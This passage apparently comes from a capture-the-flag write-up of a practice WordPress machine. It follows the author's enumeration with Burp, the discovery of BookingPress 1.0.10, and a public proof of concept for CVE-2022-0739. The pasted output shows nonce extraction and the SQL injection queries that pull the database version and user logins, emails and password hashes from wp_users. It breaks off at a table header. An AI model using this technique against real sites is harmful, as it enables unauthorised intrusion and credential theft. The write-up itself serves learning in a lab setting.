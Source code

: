 This tells me `admin` is the author so likely the `/login` page also uses `admin`. Nothing else really.

### burpsuite
I then used `burp` to start going through the site. I noticed the `http://metapress.htb/?p=1` page convention, so I ran the `Intruder` to iterate from 1-1000 to see if anything interesting came up. Nothing here.

Before I did that, I noticed the booking an event feature. Since there were a lot of components to this, it seemed like something could be vulnerable here. 

The event feature is uses the `bookingpress-appointment-booking` plugin as shown in the site map within `burp`.

To view more on the plugin, I visited `http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/readme.txt`. Here we can see the version in use is `1.0.10`

A quick google search shows: [BookingPress < 1.0.11 - SQL Injection](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/bookingpress-appointment-booking/bookingpress-1011-sql-injection)


### CVE-2022-0739 
Since `searchploit` didn't have anything that matched, I instead found a [POC online](https://github.com/destr4ct/CVE-2022-0739/blob/main/booking-press-expl.py).

This gave the pretty output of:

```sh
░█████╗░██╗░░░██╗███████╗░░░░░░██████╗░░█████╗░██████╗░██████╗░░░░░░░░█████╗░███████╗██████╗░░█████╗░
██╔══██╗██║░░░██║██╔════╝░░░░░░╚════██╗██╔══██╗╚════██╗╚════██╗░░░░░░██╔══██╗╚════██║╚════██╗██╔══██╗
██║░░╚═╝╚██╗░██╔╝█████╗░░█████╗░░███╔═╝██║░░██║░░███╔═╝░░███╔═╝█████╗██║░░██║░░░░██╔╝░█████╔╝╚██████║
██║░░██╗░╚████╔╝░██╔══╝░░╚════╝██╔══╝░░██║░░██║██╔══╝░░██╔══╝░░╚════╝██║░░██║░░░██╔╝░░╚═══██╗░╚═══██║
╚█████╔╝░░╚██╔╝░░███████╗░░░░░░███████╗╚█████╔╝███████╗███████╗░░░░░░╚█████╔╝░░██╔╝░░██████╔╝░█████╔╝
░╚════╝░░░░╚═╝░░░╚══════╝░░░░░░╚══════╝░╚════╝░╚══════╝╚══════╝░░░░░░░╚════╝░░░╚═╝░░░╚═════╝░░╚════╝░
PoC for CVE-2022-0739 - Wordpress BookingPresss Plugin Version < 1.0.11

[*] Requesting: http://metapress.htb/events/
[*] Got Page. Title: 'Events &#8211; MetaPress'
[+] Vulnerable version detected: 1.0.10
[+] Got Nonce: e7a1da68e4
[+] Got AJAX URL: http://metapress.htb/wp-admin/admin-ajax.php
[*] Fetching Target Info...
        [*] Running Data Query: SELECT VERSION(),@@version_comment,@@version_compile_os,0,USER(),DATABASE(),7,8,9
[+] Target Info:
        [+] Version         : 10.5.15-MariaDB-0+deb11u1
        [+] Version Comment : Debian 11
        [+] Compile OS      : debian-linux-gnu
        [+] Database        : blog@localhost
        [+] User            : blog
[*] Leaking Wordpress Credentials...
        [*] Running Data Query: SELECT COUNT(*),2,3,4,5,6,7,8,9 FROM wp_users
[+] User Count: 2
        [*] Running Data Query: SELECT user_login,user_email,user_pass,4,5,6,7,8,9 FROM wp_users LIMIT 1 OFFSET 0
        [*] Running Data Query: SELECT user_login,user_email,user_pass,4,5,6,7,8,9 FROM wp_users LIMIT 1 OFFSET 1

┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
```